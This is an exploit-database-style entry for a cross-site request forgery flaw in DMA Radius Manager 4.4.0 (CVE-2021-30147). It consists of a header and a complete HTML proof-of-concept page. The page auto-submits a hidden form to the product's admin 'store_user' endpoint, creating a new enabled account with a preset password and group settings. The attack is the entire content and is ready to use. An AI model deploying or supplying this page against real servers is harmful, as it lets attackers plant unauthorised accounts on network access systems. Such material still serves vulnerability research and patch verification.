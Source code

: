 EXP
---

    # Exploit Title: DMA Radius Manager 4.4.0 - Cross-Site Request Forgery (CSRF)
    # Date: April 8, 2021 (04/08/2021)
    # Exploit Author: Issac Briones
    # Vendor Homepage: http://www.dmasoftlab.com/
    # Software Download: https://sourceforge.net/projects/radiusmanager/
    # Version: 4.4.0
    # CVE: CVE-2021-30147

    <html>
        <body>
            < ! -- Change IP addr to IP addr that RADIUS manager is located -- >
            <form action="http://192.168.1.2/admin.php?cont=store_user" method="POST">
                <input type="hidden" name="username" value="csrf_usr" />
                <input type="hidden" name="enableuser" value="1" />
                <input type="hidden" name="acctype" value="0" />
                <input type="hidden" name="password1" value="csrfusr" />
                <input type="hidden" name="password2" value="csrfusr" />
                <input type="hidden" name="maccm" value="" />
                <input type="hidden" name="mac" value="" />
                <input type="hidden" name="ipmodecpe" value="0" />
                <input type="hidden" name="simuse" value="1" />
                <input type="hidden" name="firstname" value="" />
                <input type="hidden" name="lastname" value="" />
                <input type="hidden" name="company" value="" />
                <input type="hidden" name="address" value="" />
                <input type="hidden" name="city" value="" />
                <input type="hidden" name="zip" value="" />
                <input type="hidden" name="country" value="" />
                <input type="hidden" name="state" value="" />
                <input type="hidden" name="phone" value="" />
                <input type="hidden" name="mobile" value="" />
                <input type="hidden" name="email" value="" />
                <input type="hidden" name="taxid" value="" />
                <input type="hidden" name="srvid" value="0" />
                <input type="hidden" name="downlimit" value="0" />
                <input type="hidden" name="uplimit" value="0" />
                <input type="hidden" name="comblimit" value="0" />
                <input type="hidden" name="expiration" value="2021-04-06" />
                <input type="hidden" name="uptimelimit" value="00:00:00" />
                <input type="hidden" name="credits" value="0.00" />
                <input type="hidden" name="contractid" value="" />
                <input type="hidden" name="contractvalid" value="" />
                <input type="hidden" name="gpslat" value="" />
                <input type="hidden" name="gpslong" value="" />
                <input type="hidden" name="comment" value="" />
                <input type="hidden" name="superuser" value="{SUPERUSER}" />
                <input type="hidden" name="lang" value="English" />
                <input type="hidden" name="groupid" value="1" />
                <input type="hidden" name="custattr" value="" />
                <input type="hidden" name="cnic" value="" />
                <input type="hidden" name="cnicfile1" value="(binary)" />
                <input type="hidden" name="cnicfile2" value="(binary)" />
                <input type="hidden" name="adduser" value="Add user" />
            </form>
        <script>
            document.forms[0].submit();
        </script>
        </body>

    </html>